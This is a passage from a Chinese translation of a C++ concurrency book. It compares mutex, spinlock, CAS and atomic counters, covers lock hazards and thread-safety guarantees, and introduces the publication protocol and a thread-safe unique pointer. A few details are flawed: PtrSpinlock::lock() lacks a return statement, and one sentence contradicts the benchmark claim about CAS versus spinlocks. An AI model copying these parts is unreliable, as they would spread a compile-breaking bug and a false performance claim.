第二种方式与第一种非常不同，进行原子增量操作的线程会毫不延迟地执行。当然，硬件本身必须锁定对共享数据的访问，以确保操作的原子性(这是通过一次对整个缓存线的独占访问，并授予一个处理器来实现的)。从开发者的角度来看，这种独占访问表明其本身会增加执行原子操作所需的时间。然而，代码本身没有等待，没有尝试和再尝试。这种程序称为**无等待**。在一个无等待程序中，所有线程都能正常运行，在任何时候都在执行操作(尽管线程之间为了访问同一个共享变量而发生争用，有些操作可能会花费更长的时间)。无等待的实现通常只适用于非常简单的操作(例如增加计数)，但只要有这种实现，可能会比基于锁的实现更简单。

最后一个方式理解起来有些困难。这里没有锁，但有一个循环重复了未知的次数。这里的实现的功能类似于锁，任何等待锁的线程也会困在一个类似的循环中，不停的尝试获得锁。二者的关键的区别在于，基于锁的程序中，当一个线程获取锁失败，必须再次尝试时，可以推断其他线程拥有锁。不能确定线程是否会很快释放锁，或者其工作有什么进展(例如，可能正在等待用户输入一些东西)。在基于比较-交换的程序中，线程无法更新共享计数的唯一原因是其他线程先进行了更新。因此，在所有试图同时增加计数的线程中，至少有一个是成功的。这种程序称为**无锁**程序。

我们已经了解了并发程序主要的三种类型:

-   无等待的程序中，每个线程都在执行必要的操作，并且总是朝着最终目标前进。不需要等待访问，也不需要重做任何工作。

-   无锁程序中，多个线程可能会更新相同的共享数据，但只有一个会成功。其余的将放弃基于原始值所做的工作，读取更新后的值，并再次进行计算。但至少有一个线程总是保证提交它的工作，而不必重做。因此，尽管不一定是全速前进，但整个程序是在前进的。

-   基于锁的程序中，线程持有使其能够访问共享数据的锁。但是，仅因为持有锁并不意味着会对这些数据做什么。因此，当并发访问发生时，最多只有一个线程在有进展，但这也无法保证。

理论上讲，这三个程序之间的区别很明显。但读者想知道，哪个版本更快？可以在谷歌基准测试中运行每个版本的代码。例如，下面是基于锁的版本:

\
**01_sharing_incr_mbm.C**

``` {style="styleCXX"}
std::mutex m;
size_t count = 0;
void BM_lock(benchmark::State& state) {
	if (state.thread_index == 0) count = 0;
	for (auto _ : state) {
		std::lock_guard l(m);
		++count;
	}
}
BENCHMARK(BM_lock)->Threads(2)->UseRealTime();
```

必须在线程之间共享的变量在全局作用域中声明。初始设置(如果有的话)可以限制为一个线程，其他基准也类似，只有测试的代码发生了变化。下面是结果:

\
图6.1 -
共享计数增量的性能:基于互斥锁、无锁(比较-交换，或CAS)和无等待(原子)

这里唯一想不到的结果是，基于锁的版本的性能非常差。然而，这只是一个数据点，并不是全部。特别是，虽然所有互斥对象都是锁，但并不是所有的锁都是互斥对象。可以尝试提出一种更有效的锁实现(至少，以满足我们的需求)。

**6.3.2不同的问题使用不同的锁**

标准的C++互斥锁在保护对共享变量的访问时性能非常差，特别是当有很多线程在同一时间修改这个变量时(如果所有线程都在读取这个变量，根本不需要保护，并发只读访问不会导致数据竞争)。但是，锁的效率低下是因为实现，还是因为锁本身存在问题？根据前一章的了解，可以预期锁的效率都比原子递增计数器低，这是因为基于锁的方案会使用两个共享变量(锁和计数)，而原子计数器只使用一个共享变量。然而，操作系统提供的互斥对象对于锁定非常短的操作(比如计数增量)通常不是特别有效。

对于这种情况，最简单有效的锁就是自旋锁。自旋锁的思想是：锁本身只是一个可以有两个值的标志，比如0和1。如果flag值为0，表示不锁定。看到这个值的线程都可以将标志设置为1并继续。当然，读取标志并将其设置为1的整个操作必须是原子操作。任何看到值为1的线程都必须等待，直到该值变回0，以表明锁可用。最后，当一个将标志从0更改为1的线程准备释放锁时，将把值更改回0。

锁实现的代码如下所示:

``` {style="styleCXX"}
class Spinlock {
	public:
	void lock() {
		while (flag_.exchange(1, std::memory_order_acquire)) {}
	}
	void unlock() { flag_.store(0, std::memory_order_release); }
	private:
	std::atomic<unsigned int> flag_;
};
```

代码中，只展示了锁定和解锁函数。类还需要默认构造函数(原子整数在其自己的默认构造函数中初始化为0)，以及使其不可复制的声明。

注意，锁定标志不使用条件交换，而总是将1写入标志。原因是，如果标志的原始值是0，交换操作将设置为1并返回0(循环结束)，这就是我们想要的。但是如果原来的值是1，就被1代替，也就是不发生改变。

另外，注意两个内存栅栏:锁定伴随着获取栅栏，解锁伴随着打开栅栏。栅栏划分了临界区，并确保在`lock()`和`unlock()`调用之间的代码都留在那里。

读者可能想看这个锁与标准互斥锁的基准比较，但是我们不打算展示:这个自旋锁的性能非常糟糕。为了使它有用，需要一些优化。

首先，如果标志的值是1，实际上不需要用1替换它，可以不去管它。为什么这很重要？交换是一个读-改-写操作。即使它将旧的值更改为相同的值，也需要独占访问包含该标志的缓存行，这里不需要独占访问来读取该标志。这在以下场景中很重要，一个锁锁住了，拥有锁的线程没有更改它(正在忙着做它的工作)，但是其他线程都在检查锁，并等待锁的值更改为0。如果线程不尝试写入标志，那么缓存行就需要在CPU之间切换，线程在缓存中都有相同的内存副本，并且这个副本是当前的，不需要发送数据到其他地方。只有当其中一个线程实际修改了值时，硬件才需要将内存中的新内容发送给所有的CPU。下面是我们刚刚描述的优化，以代码的形式完成:

``` {style="styleCXX"}
class Spinlock {
	void lock() {
		while (flag_.load(std::memory_order_relaxed) ||
		flag_.exchange(1, std::memory_order_acquire)) {}
	}
}
```

这里的优化是，首先读取该标志，直到看到0，然后将其与1交换。如果另一个线程先获得了锁，那么在进行检查和交换之间，这个值可以变成1。另外，在预检查标志时，不去关心内存栅栏，因为最终的决定性检查会使用交换和内存栅栏来完成。

即使进行了这种优化，锁的性能仍然很差。原因与操作系统倾向于优先处理线程的方式有关。当一个线程正在做一些有用的事情，那么将会获得更多的CPU时间。但在我们的例子中，计算量最大的线程是在等待标志改变的同时，查询获得标志线程的状态。这可能会导致一种不希望出现的情况，即一个线程试图获得锁并将CPU分配给它，而另一个线程希望释放锁，但在一段时间内没有调度执行。解决方案是等待的线程在多次尝试后放弃CPU，这样其他线程就可以运行，并且可以完成自己的工作并释放锁。

有几种方法可以让线程释放对CPU的控制，没有一个通用的最好的方法，大多数都是通过系统函数调用完成的。在Linux上，通过调用`nanosleep()`在很短的一段时间内(1纳秒)调用`sleep`，可能会产生最好的结果，通常比调用`sched_yield()`更好，`sched_yield()`是另一个提供CPU访问的系统函数。与硬件指令相比，所有的系统调用开销都很大，所以最好不要频繁使用。当尝试几次获取锁后，将CPU交给另一个线程，然后再尝试时，就达到了最佳的平衡:

\
**01c_spinlock_count.C**

``` {style="styleCXX"}
class Spinlock {
	void lock() {
		for (int i=0; flag_.load(std::memory_order_relaxed) ||
		flag_.exchange(1, std::memory_order_acquire); ++i) {
			if (i == 8) {
				lock_sleep();
				i = 0;
			}
		}
	}
	void lock_sleep() {
		static const timespec ns = { 0, 1 }; // 1 nanosecond
		nanosleep(&ns, NULL);
	}
}
```

释放CPU之前，获取锁的最佳尝试次数取决于硬件和线程数。一般来说，8到16之间比较合适。

现在，已经准备好进行第二轮的基准测试了，结果如下:

\
图6.2 -
共享计数增量的性能:基于自旋锁、无锁(比较-交换，或CAS)和无等待(原子)

自旋锁已经做得很好了，性能明显优于比较-交换实现，并可以与无等待操作进行竞争。这里会有两个问题:首先，如果自旋锁的速度快得多，为什么不都使用自旋锁？其次，如果自旋锁这么好，为什么还需要原子操作(当然，除了锁实现的原子操作)？

第一个问题的答案可以归结为本节的标题，不同的问题使用不同的锁。自旋锁的缺点是等待的线程不断地使用CPU或"忙等待"。另一方面，等待系统互斥的线程大部分是空闲的(休眠)。如果需要等待几个周期，即增量操作的持续时间，那么忙碌等待也不错，比让线程进入睡眠状态要快得多。另一方面，如果锁定的计算包含多个指令，那么等待自旋锁的线程将浪费大量CPU时间，并剥夺其他工作线程访问所需的硬件资源的机会。总的来说，C++的互斥量(`std::mutex`)或OS的互斥量通常会进行平衡，锁定一条指令的效率有点低，锁定一个需要几十纳秒的计算是可以的。如果需要持有锁很长时间(长是相对的，处理器很快，所以1毫秒是非常长的)，这就打败了另一种选择。已经讨论了极端性能(以及极端实现性能的努力)，因此大多数HPC开发者要么实现自己的快速锁来保护短计算，要么使用现成的库。

第二个问题，"锁还有其他的缺点吗？"让我们带着这个问题进入下一节。

**6.3.3锁的和无锁的区别**

在讨论无锁编程的好处时，第一个点是"更快"。但这并不一定，如果针对特定的任务进行优化，锁的实现可以非常高效。但是，基于锁的方法还有其他缺点，不过这些缺点不依赖于实现。

最头痛的是可能出现死锁。当程序使用多个锁时，就会发生死锁，比如lock1和lock2。线程A拥有lock1，需要获取lock2。线程B已经拥有了lock2，需要获取lock1。两个线程都不能继续，而且都将永远等待，因为唯一可以释放它们所需锁的线程被锁阻塞了。

如果同时获得两个锁，总是以相同的顺序获得锁，就可以避免死锁。C++有一个用于此目的的函数`std::lock()`。但通常不能同时获得锁，当线程A获得lock1时，无法知道我们也需要lock2，因为该信息隐藏在由lock1保护的数据中。我们将在下一章讨论并发数据结构时看到一些例子。

如果不能获取多个锁，也许解决方案会尝试获取。然后，若不能获得所有的锁，那么释放已经持有的锁，以便其他线程可以获得。在我们的例子中，线程A持有lock1，它也会尝试获得lock2，但不会阻塞。大多数锁都有`try_lock()`，要么获得锁，要么返回false。后一种情况下，线程A释放lock1并试图再次锁定它们。这可能行得通，特别是在一个简单的测试中。但它自己也有危险，当两个线程不断地传递锁时，就会出现活锁。线程A有lock1，但没有lock2，线程B有lock2，放弃了它，得到了lock1，现在它不能再得到lock2了，因为线程A拥有了lock2。有一些算法可以获取多个锁，从而保证最终成功。但这可能要需要很长一段时间，并且算法也相当复杂。

解决多个锁的问题是互斥对象不能组合，不能将两个或多个锁组合成一个。

即使没有活锁和死锁的危险，基于锁的程序也会遇到其他问题。其中较为频繁和难以诊断的一种称为协同。可以在多个锁中发生，也可以只在一个锁中发生。协同看起来是这样的:假设有一个锁保护的计算。线程A目前拥有这个锁，并且正在对共享数据进行操作，其他线程正在等待。然而，这项工作并不是一次性的，每个线程都有许多任务要做，每个任务的一部分需要独占访问共享数据。线程A完成一个任务，释放锁，然后快速切换到下一个任务，直到它再次需要锁。锁释放了，其他线程都可以获得，但其他线程没完全醒，而线程A在CPU上，并没有睡。因此，线程A再次获得锁，只是因为竞争对手还没有做好准备。线程A的任务像车队中的卡车一样快速执行，而其他线程什么也做不了。

锁的另一个问题是，没有优先级的概念。持有锁的低优先级线程可以抢占需要相同锁的高优先级线程。因此，高优先级线程必须等待低优先级线程决定的时间，这种情况似乎与高优先级的概念不一致，这种情况有时称为优先级倒置。

既然已经理解了锁的问题并不局限于性能，那么看看无锁程序在相同的复杂性下会有怎样的表现。首先，在无锁程序中，至少有一个线程不被阻塞。最坏的情况是，当所有线程同时执行比较-交换(CAS)操作，并且原子变量的期望与当前值相同时，其中一个线程将看到期望值(因为唯一可以更改的方法是通过CAS操作)。其他线程将放弃它们的计算结果，重新加载原子变量，并重复计算，但是在CAS上成功的线程可以移动到下一个任务，这避免了死锁的可能性。如果排除了死锁和避免死锁的尝试，也就不必担心活锁。由于所有线程都忙于计算通向原子操作(如CAS)的路径，高优先级线程更有可能最先到达那里，并提交其结果，而低优先级线程更有可能使CAS失败，并重做其工作。类似地，提交结果的一次成功并不会使"获胜"的线程比所有其他线程有任何优势，准备先尝试执行CAS的线程就是成功的线程。这自然就消除了出现协同的可能。

无锁编程有什么不好呢？有两个主要的缺点。第一个是其优点的反面，即使CAS尝试失败的线程也会保持忙碌。这解决了优先级问题，但代价很高。在高争用的情况下，大量的CPU时间会浪费在重复工作上。更糟糕的是，这些为访问单个原子变量而竞争的线程，会从进行一些不相关计算的其他线程那里夺取CPU资源。

第二个缺点性质完全不同。虽然大多数并发程序都不容易编写或理解，但无锁程序的正确设计和实现都非常困难。基于锁的程序只需要保证构成单个逻辑事务的操作集都在锁下执行。当存在多个逻辑事务时，例如(而不是所有)共享数据对几个不同的事务来说是公共的，这就更难了。这就是提出多锁问题的原因。尽管如此，推断基于锁的正确性并不是那么困难。如果代码中有一段共享数据，就必须指明哪个锁保护该数据，并证明没有线程可以在不先获取该锁的情况下访问该数据。如果不是这样，那么就会出现数据竞争。如果满足了这些需求，就不会出现数据竞争(可能会出现死锁和其他问题)。

另一方面，无锁程序有无限多种数据同步方案。因为没有线程会暂停，所以无论线程执行原子操作的顺序如何，结果都必须是正确的。此外，如果没有明确的临界区，就得担心内存序和程序中所有数据的可见性，而不仅仅是原子变量。这里必须问问自己，有没有可能因为内存顺序要求不够严格，一个线程可以更改数据，而另一个线程可以看到这个数据的旧版本？

解决复杂性问题的通常方法是模块化和封装。将复杂的代码收集到模块中，每个模块都有一个定义良好的接口和一组明确的需求和保证，主要关注实现各种并发算法的模块。不过本书会有一个不同的方向，本章的其余部分将专门讨论适用于并发的数据结构。

###  6.4.并发编程的构建块 {#并发编程的构建块 .unnumbered}

并发程序的开发通常挺难的，编写同时需要正确和高效(换句话说，所有这些都需要)的并发程序要困难得多。对于具有许多互斥对象或无锁的复杂性，会让编程更加困难。

管理这种复杂性的唯一方法就是进行封装，放入定义良好的代码或模块中。只要接口和需求是明确的，这些模块的使用者就不需要知道实现是无锁的还是基于锁的。它确实会影响性能，所以在优化之前，模块对于特定的需求可能不够用，但可以根据需要进行优化，而且这些优化仅限于特定的模块。

本章中将重点讨论为并发编程实现数据结构的模块。为什么是数据结构，而不是算法？首先，有很多关于并发算法的文献。其次，大多数开发者在处理算法上都有更宽裕的时间。分析代码，相应函数花费了过多的时间，再找到了一种不同的方法来实现算法，并在性能图表上移动到下一个高度。然后，最终会得到一个程序，其中没有一个单独的计算需要花费大量的时间，但仍然会有没有达到应有速度的感觉。原因:当没有热代码时，就可能有热数据。

数据结构在并发程序中扮演着更重要的角色，因为它们决定了如何保证算法的正确性，有哪些限制，和哪些并发操作可以安全执行？不同线程看到的数据视图是否一致？如果不知道这些问题的答案，就无法编写代码，而答案是由数据结构决定的。

与此同时，设计决策，比如接口和模块边界的选择，会对编写并发程序时的选择产生重大影响，并发不能作为事后的想法添加到设计中。在设计初始，就必须考虑到并发性，特别是数据的组织。

这里通过定义一些基本的术语和概念开始探索并发数据结构。

**6.4.1并发数据结构的基础**

使用多线程的并发程序需要线程安全的数据结构。什么是线程安全？怎么使数据结构是线程安全的？乍一看，似乎很简单:如果一个数据结构可以被多个线程同时使用，并且没有任何数据竞争(在线程之间共享)，那么它就是线程安全的。

然而，这个定义过于简单:

-   将标准定的很高------例如，没有一个STL容器是线程安全的。

-   具有非常高的性能开销。

-   这通常是不必要的，开销也是如此。

-   在许多情况下完全没用。

我们将逐一解决这些问题。为什么线程安全的数据结构即使在多线程程序中也是不必要的？一种微小的可能性是，用于程序的单线程部分。我们努力最小化这些部分，因为它们对总体运行时间具有负面影响(还记得Amdahl定律吗？)，但是大多数程序都有一些需要单线程处理的事情，使这些代码更快的方法是只做必要的事情。更常见的不需要线程安全的情况是，即使是在多线程程序中，一个对象仅由一个线程使用。这非常常见，也是非常可取的，共享数据是并发程序中效率低下的主要原因，因此可以尝试在每个线程上只使用本地对象和数据，独立地完成尽可能多的工作。

但是，即使每个对象永远不会在线程之间共享，能确定在多线程程序中使用一个类或一个数据结构是安全的吗？这还真不一定。仅在接口层没有看到共享，并不意味着在实现层没有。多个对象可以在内部共享相同的数据，静态成员和内存分配器只是其中的可能(我们倾向于认为所有需要内存的对象都通过调用`malloc()`获得，并且`malloc()`是线程安全的，而且类也可以实现自己的分配器)。

另一方面，只要没有线程修改对象，在多线程代码中使用许多数据结构是安全的。但必须再次考虑实现，接口可以是只读的，但实现仍然是可以修改对象。如果认为这是一种奇异的可能性，请考虑标准的C++共享指针`std::shared_ptr`。当复制一个共享指针时，复制的对象不会修改，至少不会可见(通过`const`引用传递给新指针的构造函数)。与此同时，知道对象中的引用计数必须增加，这意味着复制的对象已经改变(在此场景中，共享指针是线程安全的，但这不是偶然，也不是免费的，同样也有性能成本)。

这里需要一个更细致的线程安全定义。但对于这个普遍的概念，没有通用的标准，不过有几个流行的版本。线程安全的最高级别通常称为**强线程安全保证**，提供这种保证的对象可以被多个线程并发使用，而不会引起数据竞争或其他未定义的行为(特别是，任何不变量都会保留)。下一级称为**弱线程安全保证**，只要所有线程都限制为只读访问(调用类的`const`成员函数)，提供这种对象就可以使用多个线程同时访问。其次，任何对对象具有独占访问权的线程都可以对对象执行其他的操作(无论其他线程在同一时间做什么)。不提供任何此类保证的对象，不能在多线程程序中使用。即使对象本身不共享，其实现内部的某些内容也很容易被其他线程修改。

本书中，将使用强弱线程安全的语言保证。提供强担保的类有时简单地称为**线程安全**。只提供弱保证，则称为**线程兼容**。大多数STL容器都提供了这样的保证，若容器是一个线程的局部对象，可以以有效的方式使用，但若容器对象是共享的，只能调用`const`成员函数。最后，根本不提供任何保证的类称为**线程敌对**，并且不能在多线程程序中使用。

实践中，经常遇到强保证和弱保证的组合。接口的一个子集提供强保证，其余部分只提供弱保证。

为什么不尝试在设计每个对象时都有强线程安全保证呢？第一个原因是，会有性能开销。保证通常是不必要的，因为对象不是在线程之间共享的，编写高效程序的关键是不做无用的工作。更有趣的反对意见是，即使在以需要线程安全的方式共享对象，强线程安全保证可能没用。假如需要开发一款玩家招募军队并进行战斗的游戏。军队中所有单位的名称都存储在一个容器中，比如一个字符串列表。另一个容器存储每个单元的当前强度。在战役中，单位总是会被杀死或招募，游戏引擎是多线程的，需要有效地管理庞大的军队。虽然STL容器只提供弱线程安全保证，但假设有一个强线程安全容器库。这是不够的，添加一个单元需要将它的名称插入到一个容器中，并将初始强度插入到另一个容器中，这两个操作本身都是线程安全的。一个线程创建一个新单元并将其插入到第一个容器中。在这个线程可以添加它的强度值之前，另一个线程看到这个新单位并需要查找它的强度，但是在第二个容器中还没有任何东西。问题在于线程安全的保证是在错误的层面上提供的。从应用程序的角度来看，创建新单元是一个事务，所有游戏引擎线程都应该能够在添加单元之前或之后查看数据库，但不能在中间状态。可以通过使用互斥锁来实现，在单元添加前锁定，只有在两个容器都新之后才会解锁。在这个场景中，只要这些对象的所有访问都由互斥锁保护，就不用关心单个容器提供的线程安全保证。显然，这里需要的是一个单元数据库，其本身提供所需的线程安全保证，例如：通过使用互斥对象。这个数据库可能在内部使用几个容器对象，数据库的实现可能需要或不需要这些容器的线程安全保证，但这对数据库的使用者应该是不可见的(拥有线程安全的容器可能会使实现更容易，也可能不会)。

这让我们得出一个非常重要的结论:线程安全始于设计阶段。必须明智地选择程序使用的数据结构和接口，以便表示适当的抽象级别，以及发生线程交互级别上的正确事务。

考虑到这一点，本章的其余部分应该从两个方面来看:一方面，展示如何设计和实现一些基本的线程安全的数据结构，这些数据结构可以用在程序中，构建更复杂(和更多样化)的构建块。另一方面，还展示了构建线程安全类的基本技术，这些类可用于设计更复杂的数据结构。

**6.4.2计数器和累加器**

最简单的线程安全对象是简单的计数器或累加器，计数器只是计算在线程上可能发生的一些事件。所有线程都可能需要修改计数器或访问当前值，因此存在竞争条件。

弱线程安全保证无法满足我们的要求，这里需要强线程安全保证，从而确保读取没有更改的值总是线程安全的。我们已经看到了实现的可用选项:某种锁、原子操作(当有原子操作时)或无锁CAS循环。

锁的性能因实现的不同而不同，通常首选自旋锁。没有立即访问计数器的线程的等待时间将非常短，因此将线程置于睡眠状态，并在稍后将其唤醒所需的成本根本没有必要。另一方面，由于忙等待(轮询自旋锁)而浪费的CPU时间可以忽略不计，很可能只需要几条指令。

原子指令提供了良好的性能，但操作的选择相当有限。在C++中，可以原子地对整数进行加法，但不能对整数进行乘法。这对于简单的计数器来说已经足够了，但是对于累加器来说可能还不够(累加操作可能有多个结果)。如果有一种方法可用，肯定没有原子操作那么简单。

CAS循环可用于实现累加器，而不考虑需要使用的操作。然而，在大多数现代硬件上，性能比自旋锁的性能更好(参见图6.2)，但不是最快的选择。

当使用自旋锁访问单个变量或单个对象时，可以进一步优化自旋锁。可以让锁成为保护对象的唯一引用，而不是通用标志。原子变量是指针，而不是整数。除此之外，锁定机制保持不变。因为`lock()`函数返回指向计数器的指针，所以是非标准的:

\
**01d_ptrlock_count.C**

``` {style="styleCXX"}
template <typename T>
class PtrSpinlock {
	public:
	explicit PtrSpinlock(T* p) : p_(p) {}
	T* lock() {
		while (!(saved_p_ =
		p_.exchange(nullptr, std::memory_order_acquire))) {}
	}
	void unlock() {
		p_.store(saved_p_, std::memory_order_release);
	}
	private:
	std::atomic<T*> p_;
	T* saved_p_ = nullptr;
};
```

与之前的自旋锁实现相比，原子变量的含义"颠倒"了。如果原子变量`p_`不为空，则该锁可用，否则为空。为自旋锁做的所有优化在这里也适用，看起来完全相同，所以不打算重复。另外，这个类需要一组删除复制的操作(锁是不可复制的)。如果需要转移锁，并将其释放给另一个对象，则该锁可以移动。如果锁拥有它所指向的对象，析构函数应该删除它(这结合了自旋锁和单类中unique指针的功能)。

指针自旋锁的第一个优点，提供了访问保护对象的唯一方式。这就不可能有条件竞争，并在没有锁的情况下访问共享数据。第二个优点，锁的性能通常略优于常规自旋锁，自旋锁是否优于原子操作也取决于硬件。相同的基准测试在不同的处理器上会出现不同的结果:

\
图6.3 -
共享计数增量的性能:不同硬件系统(a)和(b)的常规自旋锁、指针自旋锁、无锁(比较-交换，或CAS)和无等待(原子)

通常，越新的处理器处理锁和忙等待的性能越好，而且自旋锁在最新的硬件上提供的性能也越好(图6.3中，系统*b*使用的Intel
x86 CPU比系统*a*的CPU晚一代)。

执行一个操作所需的平均时间(或者相反的，吞吐量)是我们在大多数HPC系统中主要关注的指标。然而，这并不是用来衡量并发程序性能的唯一指标。如果程序在移动设备上运行，那么功耗可能更重要。所有线程使用的CPU总时间根据平均功耗的进行调整。用于测试计数器增量平均实时时间的基准测试，同样也可以用来测试CPU时间:

\
图6.4 - 线程安全的计数器------不同实现使用的平均CPU时间

坏消息是，无论采用哪种实现，多个线程同时访问共享数据的成本都会随着线程数量的增加呈指数增长，至少在有很多线程的情况下是这样的(注意，图6.4中的y轴比例是对数的)。然而，不同的实现之间的效率差别很大，对于最高效的实现来说，在8个线程之后才会出现指数级的增长。注意，不同硬件系统的结果也会有所不同，所以必须根据目标平台进行选择，并且只有在完成测试后才能选择。

无论选择何种实现，线程安全的累加器或计数器都不应将其公开，而应将其封装在类中。原因之一是为类的客户端提供稳定的接口，同时保留优化实现的自由度。

第二个原因更微妙，与计数器提供的保证有关。目前，关注的是计数器本身，确保所有线程都可以对其进行修改和访问，而不存在任何竞争。这是否足够使用，取决于如何使用计数器。如果只是计算一些不依赖于计数器的值，那么只关心值本身是否正确就好。另一方面，如果计数的是数组中的元素数量，那么处理的就是数据依赖关系。假设有一个大型的预分配数组(或者一个容器，可以在不影响现有元素的情况下增长)，所有线程都在计算要插入到这个数组中的新元素。计数器对进行计算的元素进行计数，并将值插入数组，可以由其他线程使用。若一个线程从计数器中读取值N，必须确保数组的前N个元素可以安全读取(这意味着没有其他线程修改它们)。但是数组本身既不是原子的，也不受锁的保护。可以通过锁来保护对整个数组的访问，但这可能会降低程序的性能。如果数组中已经有很多元素了，只有一个线程可以读取它们，那么程序就可能是单线程的。另一方面，从多个线程读取常量、不可变数据都是安全的，不需要任何锁。只需要知道不可变数据和变化数据之间的边界在哪里，而这正是计数器应该提供的。这里的关键问题是内存可见性，需要在计数器的值从N-1更改为N之前，保证数组前N个元素的更改对所有线程都可见。

上一章中，了解控制可见性的方法是通过限制内存序或使用内存栅栏(同一件事的两种不同的方式)。在多线程程序中，计数和索引的区别在于，索引提供了额外的保证。如果将索引从N-1增加到N的线程在增加索引之前已经完成了数组元素N的初始化，然后其他线程读取索引并获得N(或更大)的值，保证至少有N个元素完全初始化，并且可以安全地读取数组中的元素(假设没有其他线程写入这些元素)。这个保证很重要，多个线程正在访问内存中的相同位置(数组元素N)而没有任何锁，其中一个线程正在写入这个位置，访问是安全的，没有数据竞争。若不能使用共享索引来确认这种保证，则需要锁定对数组的所有访问，并且只有一个线程能够读取它。可以使用这个原子索引类:

\
**02_atomic_index.C**

``` {style="styleCXX"}
class AtomicIndex {
	std::atomic<unsigned long> c_;
	public:
	unsigned long incr() noexcept {
		return 1 + c_.fetch_add(1, std::memory_order_release);
	}
	unsigned long get() const noexcept {
		return c_.load(std::memory_order_acquire);
	}
};
```

唯一不同的是，索引在计数是在内存可见性保证，而计数不提供这种可见性保证:

``` {style="styleCXX"}
class AtomicCount {
	std::atomic<unsigned long> c_;
	public:
	unsigned long incr() noexcept {
		return 1 + c_.fetch_add(1, std::memory_order_relaxed);
	}
	unsigned long get() const noexcept {
		return c_.load(std::memory_order_relaxed);
	}
};
```

当然，每个类的线程安全和内存可见性保证都应该有相应的文档，两者之间是否存在性能差异取决于硬件。而在x86
CPU上没有区别，因为是请求还是不请求，用于原子增量和原子读取的硬件指令都有"类索引"的内存栅栏存在。在ARM
CPU上，自由(或无障碍)内存操作明显更快。但是，不管性能、清晰度和问题是什么，都不应该忘记:如果开发者使用一个索引类，其会显式地提供了内存序保证，但没有索引任何东西。每个读者都会想知道发生了什么，以及使用这些保证的代码中技巧和位置在哪里。通过正确的文档保证集的接口，就可以向读者表明编写这段代码的意图了。

现在回到本节中的"隐藏"成就。我们学习了线程安全的计数器，但在此过程中，提出了一种算法，似乎违反了编写多线程代码的第一条规则:任何时候两个或多个线程访问相同的内存位置，访问必须带锁(或原子的)。没有锁定共享数组，允许在其元素中包含任意数据(所以它可能不是原子的)，而且还成功了!用来避免数据竞争的方法是为并发设计的数据结构的基础，现在再花些时间更好地理解和概括它。

**6.4.3发布协议**

我们试图解决的问题是，在数据结构设计和并发程序开发中非常常见的问题。线程正在创建新数据，程序的其余部分只能够在数据准备好时看到这些数据。创建数据的线程通常称为写线程或生产者线程，其他线程都是读取线程或消费者线程。

最简单的解决方案是使用锁，并严格遵守避免数据竞争的规则。如果多个线程(检查)必须访问相同的内存位置(检查)，并且至少有一个线程在这个位置进行写操作(我们的例子中正好是一个线程------检查)，那么所有线程在访问这个内存位置进行读写操作之前都必须获得锁。这种解决方案的缺点在于性能，生产者在完成并且不再发生写操作之后很长一段时间，所有的消费者线程都会互相锁定，从而不能并发地读取数据。现在，只读访问根本不需要锁，但需要在程序中有一个保证点，这样所有的写操作都发生在这一点之前，所有的读操作都发生在这一点之后。所有的使用者线程都在只读环境中操作，不需要任何锁。挑战在于保证读写之间的边界，除非进行了某种同步，否则内存的可见性是不能保证的。因为写入器已经完成了对内存的修改，并不意味着读取器可以看到内存的最终状态。锁包括相应的内存栅栏，它们为临界区设置边界，并确保在临界区之后执行的操作都将看到在临界区之前或期间发生的所有内存更改。但现在我们想在没有锁的情况下，获得同样的保证。

这个问题的无锁解决方案依赖于非常特殊的协议，从而可以在生产者和消费者线程之间传递信息:

-   生产者线程在内存中准备时，其他线程无法访问的数据。可以由生产者线程分配的内存，也可以是预分配的内存。这里，生产者是唯一对该内存有有效引用的线程，而该有效引用不会与其他线程共享(可能其他线程有访问该内存的方法，但这将引起程序的错误，类似于索引数组超出边界)。因为只有一个线程访问新数据，所以不需要同步。至于其他线程，这些数据根本看不到。

-   所有的消费者线程都必须使用共享指针来访问数据，称之为*根指针*，这个指针最初是空的。在生产线程构造数据时，它保持为空。所以，从消费者线程的角度来看，目前没有数据。更一般地说，"指针"不需要是一个实际的指针:任何类型的句柄或引用都可以用，只要是允许访问内存位置，并且可以设置为一个无效值。如果所有的新对象都是在预先分配的数组中创建的，那么"指针"可以是数组的索引，无效值可以是大于或等于数组长度的值。

-   协议的关键在于，消费者访问数据的唯一方式是通过*根指针*，在生产者准备显示或发布数据之前，根指针保持为空。发布数据的过程非常简单，生产者必须在根指针中存储数据的正确内存位置，并且这个改变必须伴随着内存释放栅栏。

-   消费者可以以原子方式再次查询根指针。如果查询返回空，则没有数据(就使用者而言)，使用者线程应该等待，或者做一些其他的工作。如果查询返回一个非空值，那么数据就准备好了，生产者将不再更改它。该查询必须与获取内存栅栏一起完成，它与生产者端的释放内存栅栏一起，确保在观察到指针值的变化时，新数据是可见的。

这个过程有时称为**发布协议**，因为它允许生产者线程以一种保证没有数据竞争的方式发布信息，供其他线程使用。发布协议可以使用允许访问内存的句柄来实现，只要这个句柄可以进行原子性修改。当然，指针是最常用的句柄，后面是数组下标。

发布的数据可以是简单的，也可以是复杂的，这都无所谓。甚至不必是单个对象或单个内存位置，*根指针*所指向的对象本身可以包含指向多个数据的指针。发布协议的关键点为:

-   所有消费者都通过*根指针*访问一组特定的数据。访问数据的唯一方法是读取*根指针*的非空值。

-   生产者可以以任何方式准备数据，这是*根指针*仍然是空的。生产者可以对线程本地的数据进行引用。

-   当生产者想要发布数据时，会自动设置*根指针*指向正确的地址，并释放栅栏。数据发布后，生产者不能改变它(其他线程也不能)。

-   消费者线程必须以原子的方式读取*根指针*，并获取栅栏。如果读取非空值，则可以通过*根指针*读取可访问的数据。

当然，用于实现发布协议的原子读写不应该分散在代码中，应该实现一个发布指针类来封装这个功能。下一节中，我们将看到这个类的一个简单实现。

**6.4.4并发编程的智能指针**

并发(线程安全)数据结构的挑战是，如何以线程安全的方式添加、删除和更改数据。发布协议提供了一种向所有线程发布新数据的方法，它通常是向任何此类数据结构添加新数据的第一步。因此，首先来了解如何将协议的指针封装入类。

\
**发布指针**

下面是一个发布指针，包含了`unique_ptr`(或拥有指针)的功能(所以可以称它为线程安全的`unique_ptr`):

\
**03_owning_ptr_mbm.C**

``` {style="styleCXX"}
template <typename T>
class ts_unique_ptr {
	public:
	ts_unique_ptr() = default;
	explicit ts_unique_ptr(T* p) : p_(p) {}
	ts_unique_ptr(const ts_unique_ptr&) = delete;
	ts_unique_ptr& operator=(const ts_unique_ptr&) = delete;
	~ts_unique_ptr() {
		delete p_.load(std::memory_order_relaxed);
	}
	void publish(T* p) noexcept {
		p_.store(p, std::memory_order_release);
	}
	const T* get() const noexcept {
		return p_.load(std::memory_order_acquire);
	}
	const T& operator*() const noexcept { return *this->get(); }
	ts_unique_ptr& operator=(T* p) noexcept {
		this->publish(p); return *this;
	}
	private:
